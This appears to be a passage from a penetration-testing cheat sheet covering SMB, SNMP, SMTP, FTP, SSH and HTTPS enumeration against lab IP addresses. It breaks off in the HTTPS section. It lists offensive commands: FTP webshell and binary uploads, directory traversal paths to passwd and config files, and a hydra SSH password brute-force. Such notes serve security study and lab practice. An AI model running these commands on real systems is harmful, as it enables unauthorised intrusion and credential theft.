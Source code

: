 ```
```smbclient //10.11.1.31/wwwroot```

```crackmapexec smb 10.10.10.175```

#### SNMP
```onesixtyone 10.11.1.13```

```snmpwalk -c public -v1 10.11.1.13```
#### SMTP
- If there is an SMTP service running enumerate for usernames (after checking for exploits)

```perl smtp-user-enum.pl -M VRFY -U names.txt -t 10.1.1.236```
```-> /usr/share/seclists/usernames/Names/names.txt```

# Investigate Other Services
#### FTP/FTP 
if there is an FTP service running it is very likely it is related in some way, enumerate for creds (after checking for exploits)
- Anonymous login
- Remember FTP can be accessed via browser ```FTP://10.2.2.3/``` as well as via FTP from command line i.e.,   ```ftp 10.2.2.3```

First check if you have command execution from within the FTP client:

```
!dir
!whoami /all
!C:\Temp\bad.exe
```

upload a webshell or binary:
```
put webshell.aspx
put go.exe
```

- Directory Traversal is also a likely path here…

#### Useful Directory Traversal locations:-
We are Looking for passwd files, configuration and properties files ; .ini  .cnf  logon.php ...
```
ls -alh

../boot.ini
../WINDOWS/system32/prodspec.ini
..WINDOWS\System32\drivers\etc\hosts

../../../../Docume~1/
ls /..//Windows\\System32\\
//xampp//
../\\Inetpub\\wwwroot

../../etc/passwd
../../../../var/www/html
/etc/httpd/conf/httpd.conf
/etc/apache/apache2.conf
```
- Attempt to enumerate files to find credentials, other services running on hidden ports, upload and execute or swap binaries to be run.  

#### SSH - likely nothing except a logon vector from enumerated usernames.
```hydra -l robert -P fasttrack.txt ssh://192.168.1.20 -t 4```

#### HTTPS - Heartbleed / CRIME / Other similar attacks
- Read the actual SSL CERT to:
  - find out potential correct vhost to GET
  - is the clock skewed
```